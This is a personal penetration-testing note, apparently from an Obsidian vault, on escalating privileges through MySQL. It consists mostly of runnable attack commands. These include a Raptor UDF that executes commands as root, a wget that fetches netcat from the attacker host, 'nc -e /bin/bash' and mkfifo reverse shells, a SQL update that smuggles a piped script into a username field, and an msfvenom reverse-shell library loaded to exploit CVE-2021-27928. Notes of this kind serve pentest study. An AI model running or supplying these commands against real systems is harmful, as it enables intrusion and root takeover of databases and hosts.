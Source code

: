 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Enumeration

```bash - kali
ps aux | grep mysql
```

Is mysql running as root?
```bash - kali
ps aux | grep root | grep mysql
```

If so, folllow [[MySQL#Raptor User Defined Function]]

![[TechLexicon/Penetration Testing/Reference/P3nT3sT/Grep#Grep'n for passwords]]

![[find#Hunting for config files]]

#### Raptor User Defined Function

![[14._MySQL Raptor Service Exploits]]


---
DELETE OR KEEP THE FOLLOWING?

```sql - target
insert into foo values(load_file('/var/www/raptor_udf2.so'));
```

If everything went according to plan, the `do_system` function based on our malicious UDF will grant us root-level command execution. To check this, we can run the `id` command and redirect the output to a file we can read:

```sql - target
select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
```

```sql - target
\! sh
```

```sql - target
cat /var/www/out
```

![[Pasted image 20220401112428.png]]

```sql - target
exit
```

The command did indeed execute with the highest privileges. To obtain a reverse shell, we can download our copy of the Netcat binary to the target and then run it as root. We'll continue utilizing our running python web server on port 8295.

On Kali:

```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```sql - target
select do_system('wget http://$KALI:80/nc -O /var/www/nc');
```


```sql - target
select do_system('chmod 777 /var/www/nc');
```

![[rlwrap]]

```sql - target
select do_system('/var/www/nc $KALI 443 -e /bin/bash');
```

---

#### Reverse shell DB injection
![[Pasted image 20220324115631.png|1000]]

![[Pasted image 20221115145406.png]]

First, create the reverse shell file.
```bash - target
cat > script.sh <<EOF
```

```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 80 >/tmp/f
```

```bash - target
EOF
```

Make it executable.
```bash - target
chmod +x script.sh
```

Log in to mysql.
```bash - target
mysql -u $USER -p$PASSWORD
```

```sql - target
show databases;
```

```sql - target
use <DATABASE>;
```

```sql - target
show tables;
```

```sql - target
describe <TABLE>;
```

![[Pasted image 20220324115412.png]]

```sql - target
select username, password_expiry from <TABLE>;
```

```sql - target
update <TABLE> set username=' |/tmp/Tools/script.sh';
```

```sql - target
update <TABLE> set password_expiry = (select now() + interval 7 day);
```

```sql - target
select username, password_expiry from <TABLE>;
```

![[Pasted image 20220324115509.png]]

#### CVE-2021-27928

MySQL version 10.3.25

https://github.com/Al1ex/CVE-2021-27928

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf-so -o reverse.so
```

Copy the file to the target machine. Now stand up a listener on port 443 and issue the following command in the MySQL console to trigger the shell.

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

```mysql - target
SET GLOBAL wsrep_provider="/tmp/reverse.so";
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
